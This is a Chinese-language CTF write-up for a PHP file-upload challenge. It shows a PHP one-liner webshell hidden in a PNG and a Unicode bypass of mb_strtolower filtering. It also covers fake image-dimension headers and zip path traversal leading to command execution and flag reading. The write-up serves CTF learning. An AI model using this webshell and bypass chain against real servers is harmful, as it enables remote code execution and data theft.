 # 上传表单的制作以及图片马的生成及特殊字符的绕过及伪造文件的大小

## 上传表单的制作

可以通过html来编写上传的表单，如下：
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body><form action="http://270d00af-27b8-4527-a8bd-786af2f51c5e.node3.buuoj.cn/?ctf=upload" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```


同时$_FILE[ ][ ]中的两个括号中填的信息的含义
```
$_FILES数组内容如下:
<input type="file" name="userfile">
$_FILES['userfile']['name']
客户端机器文件的原名称。
$_FILES['userfile']['type'] 
文件的 MIME 类型，需要浏览器提供该信息的支持，例如“image/gif”。
$_FILES['userfile']['size'] 
已上传文件的大小，单位为字节。
$_FILES['userfile']['tmp_name'] 
文件被上传后在服务端储存的临时文件名。
$_FILES['userfile']['error'] 
和该文件上传相关的错误代码。['error'] 是在 PHP 4.2.0 版本中增加的。
注: 在 PHP 4.1.0 版本以前该数组的名称为 $HTTP_POST_FILES，它并不像 $_FILES 一样是自动全局变量。PHP 3 不支持 $HTTP_POST_FILES 数组。

```

## 图片马的制作

可以通过png-IDAT-Payload-Generator制作图片马，这个工具可以在github中找到，直接运行其中的generate.py软件就可以制作了。但是直接运行代码制作的代码的木马是：
```
<?=$_GET[0]($_POST[1]);?>
```
要执行这一个木马，需要get提交0=system，然后再post提交1=ls+/etc就可以访问系统的配置文件

然后我们可以通过CyberChef来对上面中的generate.py文件中的payload部分进行修改，从而制作自己喜欢的一句话木马的图片马
![ciscn upload1](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/ciscn upload1.jpg)

具体可以看：https://blog.csdn.net/jiangdie666/article/details/116997461

## 特殊字符的绕过

如果代码中出现mb_strtolower()这一个php函数的话，它的作用是让字符串变为小写，则可以使用unicode中的一些相似的字符对要过滤的字符进行一个绕过，其中的例子：
```
字符i可以使用unicode中的İ进行绕过，其中可以将İ变为url形式为%c4%b0
```

## 修改文件的大小

文件可以通过加
```
#define width 想要的宽度大小
#define height 想要的高度大小
```
来伪造文件的大小，而如果是图片，则将它们放在头部，而如果是zip文件，则可以通过抓包的形式放在文件的尾部

## ciscn upload的实例
打开网址，可以看见一串代码
```
 <?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="poc") {
    $zip = new \ZipArchive();
    $name_for_zip = "example/" . $_POST["file"];
    if(explode(".",$name_for_zip)[count(explode(".",$name_for_zip))-1]!=="zip") {
        die("要不咱们再看看？");
    }
    if ($zip->open($name_for_zip) !== TRUE) {
        die ("都不能解压呢");
    }

    echo "可以解压，我想想存哪里";
    $pos_for_zip = "/tmp/example/" . md5($_SERVER["REMOTE_ADDR"]);
    $zip->extractTo($pos_for_zip);
    $zip->close();
    unlink($name_for_zip);
    $files = glob("$pos_for_zip/*");
    foreach($files as $file){
        if (is_dir($file)) {
            continue;
        }
        $first = imagecreatefrompng($file);
        $size = min(imagesx($first), imagesy($first));
        $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);
        if ($second !== FALSE) {
            $final_name = pathinfo($file)["basename"];
            imagepng($second, 'example/'.$final_name);
            imagedestroy($second);
        }
        imagedestroy($first);
        unlink($file);
    }

}
```
通过对代码的审计，我们知道?ctf=upload的时候可以上传文件，因此我们可以制造表单进行上传
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body><form action="http://270d00af-27b8-4527-a8bd-786af2f51c5e.node3.buuoj.cn/?ctf=upload" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="postedFile" id="postedFile"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
而通过代码：
```
$imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
```
getimagesize()函数是获取图片的尺寸和大小，其中$_FILES['postedFile']['tmp_name']是文件上传后服务端存储的临时文件名，因此我们可知需要我们上传图片，同时通过代码：
```
 if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }

if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
        die("东西不能方方正正的话就很讨厌");
    }
```
我们可知我们上传的文件的大小要超过1024*512，但是文件的宽要为1，高也要为1，因此可以制造一个图片马，图片马的大小超过1024*512，来绕过($_FILES['postedFile']['size'] > 1024*512)，而使用
```
#define width 1
#define height 1
```
伪造文件的宽和高来绕过$imageinfo[0] !== 1 && $imageinfo[1] !== 1，可以通过抓包将这两条代码放在文件尾部（zip文件一般放在尾部），这是由于通过扫描文件，可以知道还有一个example.php文件，代码为：
```
 <?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="poc") {
    $zip = new \ZipArchive();
    $name_for_zip = "example/" . $_POST["file"];
    if(explode(".",$name_for_zip)[count(explode(".",$name_for_zip))-1]!=="zip") {
        die("要不咱们再看看？");
    }
    if ($zip->open($name_for_zip) !== TRUE) {
        die ("都不能解压呢");
    }

    echo "可以解压，我想想存哪里";
    $pos_for_zip = "/tmp/example/" . md5($_SERVER["REMOTE_ADDR"]);
    $zip->extractTo($pos_for_zip);
    $zip->close();
    unlink($name_for_zip);
    $files = glob("$pos_for_zip/*");
    foreach($files as $file){
        if (is_dir($file)) {
            continue;
        }
        $first = imagecreatefrompng($file);
        $size = min(imagesx($first), imagesy($first));
        $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);
        if ($second !== FALSE) {
            $final_name = pathinfo($file)["basename"];
            imagepng($second, 'example/'.$final_name);
            imagedestroy($second);
        }
        imagedestroy($first);
        unlink($file);
    }

}
```
通过审计代码，可知我们要上传的是zip文件，因此我们需要将图片马文件压缩为zip文件，而后通过构造?ctf=poc对文件进行解压，通过两个文件的代码可知道文件解压到example../image/目录下，因此可以再get提交?ctf=poc的同时，post提交file=../image/a.zip（上传的压缩包名）

然后我们可以get提交0=system，同时post提交1=ls+/etc来访问系统配置文件，最后找到flag文件所在处，用1=cat+/文件路径打开文件进行读取

参考：https://blog.csdn.net/jiangdie666/article/details/116997461

